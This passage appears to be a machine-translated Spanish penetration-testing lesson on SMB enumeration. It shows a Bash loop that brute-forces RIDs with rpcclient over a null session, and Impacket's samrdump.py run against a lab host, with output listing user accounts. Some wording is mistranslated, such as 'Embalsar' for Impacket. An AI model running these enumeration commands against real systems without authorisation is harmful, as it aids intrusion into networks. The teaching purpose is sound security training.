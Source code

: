 Sin embargo, también puede suceder que no todos los comandos están disponibles para nosotros, y tenemos ciertas restricciones basadas en el usuario. Sin embargo, la consulta`queryuser <RID>`se permite principalmente en función del Rid. Por lo tanto, podemos usar el rpcclient para forzar bruto a los Rids a obtener información. Debido a que no sepamos quién ha sido asignado a qué RID, sabemos que obtendremos información al respecto tan pronto como consultemos un RID asignado. Hay varias formas y herramientas que podemos usar para esto. Para quedarse con la herramienta, podemos crear un`For-loop`usando`Bash`donde enviamos un comando al servicio usando RPCClient y filtramos los resultados.

### **Bruto forzando los usuarios de los usuarios**

SMB

```
xnoxos@htb[/htb]$ for i in $(seq 500 1100);do rpcclient -N -U "" 10.129.14.128 -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";done        User Name   :   sambauser
        user_rid :      0x1f5
        group_rid:      0x201

        User Name   :   mrb3n
        user_rid :      0x3e8
        group_rid:      0x201

        User Name   :   cry0l1t3
        user_rid :      0x3e9
        group_rid:      0x201

```

Una alternativa a esto sería un guión de Python de[Embalsar](https://github.com/SecureAuthCorp/impacket)llamado[samrdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/samrdump.py).

### **Impacket - samrdump.py**

SMB

```
xnoxos@htb[/htb]$ samrdump.py 10.129.14.128Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Retrieving endpoint list from 10.129.14.128
Found domain(s):
 . DEVSMB
 . Builtin
[*] Looking up users in domain DEVSMB
Found user: mrb3n, uid = 1000
Found user: cry0l1t3, uid = 1001
mrb3n (1000)/FullName:
mrb3n (1000)/UserComment:
mrb3n (1000)/PrimaryGroupId: 513
mrb3n (1000)/BadPasswordCount: 0
mrb3n (1000)/LogonCount: 0
mrb3n (1000)/PasswordLastSet: 2021-09-22 17:47:59
mrb3n (1000)/PasswordDoesNotExpire: False
mrb3n (1000)/AccountIsDisabled: False
mrb3n (1000)/ScriptPath:
cry0l1t3 (1001)/FullName: cry0l1t3
cry0l1t3 (1001)/UserComment:
cry0l1t3 (1001)/PrimaryGroupId: 513
cry0l1t3 (1001)/BadPasswordCount: 0
cry0l1t3 (1001)/LogonCount: 0
cry0l1t3 (1001)/PasswordLastSet: 2021-09-22 17:50:56
cry0l1t3 (1001)/PasswordDoesNotExpire: False
cry0l1t3 (1001)/AccountIsDisabled: False
cry0l1t3 (1001)/ScriptPath:
[*] Received 2 entries.
```